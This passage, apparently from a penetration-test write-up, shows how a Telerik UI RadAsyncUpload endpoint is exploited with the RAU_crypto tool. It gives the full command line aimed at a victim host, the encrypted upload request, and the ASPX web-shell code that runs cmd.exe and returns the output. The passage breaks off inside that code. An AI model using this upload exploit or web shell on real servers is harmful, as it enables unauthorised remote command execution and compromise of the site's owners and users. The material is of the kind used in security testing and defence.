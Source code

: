 </html\>

File Upload Exploitation

In order to upload the aspx file, the [RAU\_crypto](https://github.com/bao7uo/RAU_crypto) tool was used to automatically create a valid file upload request encrypted with the hard-coded key of Telerik.

The tool was invoked using the following command line string:

python RAU\_crypto.py -P c:\\\\destination\\\\folder 2014.2.724 malicious.aspx http://victim.com/Telerik.Web.UI.WebResource.axd?type=rau BurpProxyHost:8080

The command line parameters contain the following information:

1.  The P parameter contains the path of the destination folder where the file needs to be uploaded. In our case it contained the path of the web root we discovered at an earlier stage.
    
2.  The version of Telerik UI so that the tool can use the correct key to encrypt the _rauPostData_
    
3.  The file to upload. In our case, the malicious .aspx file shown above.
    
4.  The target URL of the Telerik RadAsyncUpload endpoint.
    
5.  The address of a proxy to inspect the requests performed by the tool
    

By launching the tool, the following request was performed:

POST /ApplicationPath/Telerik.Web.UI.WebResource.axd?type=rau HTTP/1.1  
Host: victim.com  
Accept-Encoding: gzip, deflate  
Content-Length: 3221  
Content-Type: multipart/form-data; boundary=---------------------------62616f37756f2f  
Connection: close  
​  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="rauPostData"  
​  
ATTu5i4R+V\[Encrypted rauPostData Payload in base64\]FAlzLUg==  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="file"; filename="blob"  
Content-Type: application/octet-stream  
​  
<%@ Page Language="VB" Debug="true" %>  
<%@ import Namespace="system.IO" %>  
<%@ import Namespace="System.Diagnostics" %>  
​  
<html xmlns="www.w3.org/1999/xhtml">  
<head runat="server">  
    <title>Test</title>  
</head>  
<body>  
    <form id="form1" runat="server">  
    <div>  
    <%   
    Dim myProcess As New Process()              
    Dim myProcessStartInfo As New ProcessStartInfo("c:\\windows\\system32\\cmd.exe")  
    myProcessStartInfo.UseShellExecute = false  
    myProcessStartInfo.RedirectStandardOutput = true  
    myProcess.StartInfo = myProcessStartInfo  
    myProcessStartInfo.Arguments="/c dir"  
    myProcess.Start()  
    Dim myStreamReader As StreamReader = myProcess.StandardOutput  
    Dim myString As String = myStreamReader.Readtoend()  
    myProcess.Close()  
    mystring=replace(mystring,"<","&lt;")  
    mystring=replace(mystring,">","&gt;")  
    Response.Write(vbcrlf & "<pre>" & mystring & "</pre>")  
